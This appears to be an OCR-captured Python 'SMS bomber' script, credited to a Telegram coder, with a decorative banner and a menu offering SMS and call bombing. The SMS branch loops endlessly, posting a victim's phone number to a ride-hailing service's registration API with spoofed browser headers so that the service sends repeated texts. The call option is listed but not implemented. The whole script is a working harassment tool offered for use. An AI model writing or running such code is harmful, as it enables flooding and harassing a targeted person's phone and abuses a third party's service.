 import requests
import time



# Colours
#-----------------
red="\e[91m"
rset="\e[0m"
grn="\e[92m"
ylo="\e[93m"
blue="\e[94m"
cyan="\e[96m"
pink="\e[95m"
#-----------------
# scripting start
print("""
 _"\e[92m〓〓〓〓〓〓〓〓〓〓〓〓〓e
 
┌────────────────────────────────────────────────────────┐
│                                                        │
│     █████╗ ██████╗ ██╗   ██╗██╗  ████████╗ ██████╗     │
│    ██╔══██╗██╔══██╗██║   ██║██║  ╚══██╔══╝██╔═══██╗    │
│    ███████║██║  ██║██║   ██║██║     ██║   ██║   ██║    │
│    ██╔══██║██║  ██║██║   ██║██║     ██║   ██║   ██║    │
│    ██║  ██║██████╔╝╚██████╔╝███████╗██║   ╚██████╔╝    │
│    ╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚══════╝╚═╝    ╚═════╝     │
│                                     
T.ME/CODER_ALKA│
└────────────────────────────────────────────────────────┘                                                      
/m"
 |-----------------------|
 | coded by ALKA ADULTO  |
 | t.me/CODER_ALKA  |
 |-----------------------|
""")
print("""{1} => sms bomber
{2} => call bomber
""")
a = input("enter your choice: ")
if a == "1":
    print("example:  935....820")
    phone = input("enter phone number: ")
    while True:
        headers = {"Host": "tap33.me","Connection": "keep-alive","Content-Length": "63","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "application/json","Accept": "*/*","Origin": "https://app.tapsi.cab","Sec-Fetch-Site": "cross-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://app.tapsi.cab/","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
        json = {"credential":{"phoneNumber":"0"+phone,"role":"PASSENGER"}}
        req = requests.post("https://tap33.me/api/v2/user", headers=headers, json=json)
        print(req.text)
